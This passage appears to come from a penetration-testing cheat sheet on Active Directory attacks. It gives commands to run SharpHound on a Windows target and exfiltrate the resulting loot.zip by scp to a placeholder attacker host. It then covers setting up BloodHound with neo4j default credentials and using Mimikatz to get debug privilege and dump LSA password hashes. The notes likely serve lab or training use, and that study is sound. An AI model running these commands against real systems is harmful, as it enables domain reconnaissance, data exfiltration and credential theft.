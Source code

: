 Generate and save loot.zip in Windows target machine
```
# Init SharpHound
PS C:\Users\Administrator\Documents> . .\SharpHound.ps1

# Generate loot.zip
PS C:\Users\Administrator\Documents> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip

# Exfiltrating loot.zip file
PS C:\Users\Administrator\Documents> scp .\20210425092207_loot.zip {ATTACKER}@{ATTACKER_IP}:{PATH}
```

Rising BloodHound
```
# Install
sudo apt-get install neo4j bloodhound

# Init
$ sudo neo4j console

# Access WEB Page and change default password
# Default User: neo4j
# Default Pass: neo4j
$ firefox http://localhost:7474/

# Start
$ bloodhound

# Now import the loot.zip file into bloodhound UI
```



# Mimikatz

**Repository**: [gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz/wiki)  
This is a tool to make somes experiments with Windows security.

### Basic Usage

```
# Init
PS C:\Users\Administrator\Documents> . .\mimikatz.exe

# Need to run as Administrator
$ privilege::debug 
Privilege '20' OK

# Dump Hashes
$ lsadump::lsa /patch
```

